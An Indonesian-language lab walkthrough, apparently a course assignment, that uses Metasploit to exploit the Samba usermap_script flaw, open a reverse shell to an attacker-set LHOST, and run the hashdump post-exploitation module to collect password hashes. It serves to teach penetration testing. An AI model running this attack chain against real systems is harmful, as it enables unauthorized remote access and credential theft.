 ### Exploit : usermap_script, Post Exploitation : hashdump
1. Vulnerability kedua yang akan kita coba bobol kali ini akan menggunakan exploit usermap_script (SAMBA). Masukkan perintah `use exploit/multi/samba/usermap_script`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/Samba%20usermap_script/1.PNG?raw=true)
</p>
2. Masukkan `show payloads` untuk melihat payload apa saja yang dapat kita gunakan.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/Samba%20usermap_script/2.PNG?raw=true)
</p>
3. Payload yang akan kita gunakan adalah `cmd/unix/reverse`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/Samba%20usermap_script/3.PNG?raw=true)
</p>
4. Masukkan perintah `set PAYLOAD cmd/unix/reverse`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/Samba%20usermap_script/4.PNG?raw=true)
</p>
5. Masukkan IP target dengan `set RHOST [IP_TARGET]`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/Samba%20usermap_script/5.PNG?raw=true)
</p>
6. Masukkan port target yang akan kita buka, `set RPORT 445`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/Samba%20usermap_script/6.PNG?raw=true)
</p>
7. Masukkan IP penyerang dengan `set LHOST [IP_ATTACKER]`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/Samba%20usermap_script/7.PNG?raw=true)
</p>
8. Jalankan exploit dengan `exploit`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/Samba%20usermap_script/8.PNG?raw=true)
</p>
9. Jika sudah kita jalankan dan berhasil, tandanya seperti di bawah ini.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/Samba%20usermap_script/9.PNG?raw=true)
</p>
10. Berikut ini contoh-contoh perintah yang dapat kita masukkan.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/Samba%20usermap_script/10.PNG?raw=true)
</p>
11. Tekan ctrl+Z dan pilih `y`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/Samba%20usermap_script/11.PNG?raw=true)
</p>
12. Untuk melihat daftar session yang terbuka dapat kita lakukan dengan `sessions -l`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/Samba%20usermap_script/12.PNG?raw=true)
</p>
13. Kali ini kita akan melakukan Post Exploitation yang bernama hashdump untuk mendapatkan database. Masukkan perintah `use post/linux/gather/hashdump`.
<p align="center">
![alt text](https://github.com/adeilhamfajri/PKSJ_Gokilz/blob/master/Dokumentasi/Tugas%205%20-%20Penetration%20Testing%20(Metasploit)/Penetration/Samba%20usermap_script/13.PNG?raw=true)
</p>